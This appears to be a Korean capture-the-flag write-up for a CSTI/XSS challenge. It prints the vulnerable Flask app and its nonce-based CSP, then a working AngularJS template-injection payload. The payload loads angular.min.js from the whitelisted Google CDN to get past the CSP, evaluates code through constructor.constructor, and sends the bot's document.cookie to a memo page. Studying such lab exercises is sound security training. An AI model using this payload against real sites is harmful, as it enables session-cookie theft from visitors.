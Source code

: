 ```yaml
---
title: "[2025-08-12] CSTI"
excerpt: "CSTI"

categories:
  - Problem
tags:
  - [XSS, CSTI]

permalink: /Problem/[2025-08-12] CSTI/

toc: true
toc_sticky: true

date: 2025-08-12
last_modified_at: 2025-08-12
---
```


## 🦥 본문

- app.py

```jsx
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)
nonce = os.urandom(16).hex()

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"

def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True

def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

@app.after_request
def add_header(response):
    global nonce
    response.headers['Content-Security-Policy'] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'nonce-{nonce}' 'unsafe-eval' https://ajax.googleapis.com; object-src 'none'"
    nonce = os.urandom(16).hex()
    return response

@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)

@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param

@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'

memo_text = ""

@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text, nonce=nonce)

app.run(host="0.0.0.0", port=8000)

```

- memo.html

```jsx
{% block content %}
  <pre>{% raw %}{{ memo }}{% endraw %}</pre>
{% endblock %}
```

위의 코드들을 기존의 XSS 코드들과 비슷하다. 추가적으로 memo.html에서 템플릿이 사용된다.

CSP는 `script-src`는  `script-src 'nonce-{nonce}' 'unsafe-eval' [https://ajax.googleapis.com](https://ajax.googleapis.com/);` 을 허용하고 있다.

nonce가 있으니 <script src=””> 방식을 사용해야 한다. 또한 템플릿이 있고 `'unsafe-eval' [https://ajax.googleapis.com](https://ajax.googleapis.com/);` 을 허용하였기 때문에 AngularJS 의 Injection을 사용하면 될 것 같다

### 풀이

```jsx
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.3/angular.min.js"></script><html ng-app>{{ constructor.constructor("location='memo?memo='+document.cookie")() }}</html>
```

- `<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.3/angular.min.js"></script>` : AngularJS 라이브러리를 불러온다.
- `<html ng-app>` : `html` 태그 내에서`ng-app` 을 통해 ng-로시작하는 디렉티브나 {% raw %}{{…}}{% endraw %}
을 찾고 자바스크립트 코드로 평가하여 HTML에 삽입
- 생성자를 이용하여 자바스크립트 코드 실행